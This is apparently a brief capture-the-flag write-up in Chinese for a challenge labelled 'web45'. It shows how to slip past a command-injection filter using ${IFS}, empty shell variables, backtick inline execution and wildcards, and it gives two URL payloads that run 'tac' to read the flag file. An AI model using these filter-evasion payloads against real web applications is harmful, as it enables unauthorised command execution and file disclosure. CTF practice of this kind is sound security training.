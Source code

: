 # web45
![](vx_images/374912155968637.png)
用一下内联,或者用${IFS},空变量$*和$@,$s,${s}绕过flag
```
?c=tac${IFS}`ls`%0a
?c=tac$IFS$9fl*%0a//><与通配符不能同时用
```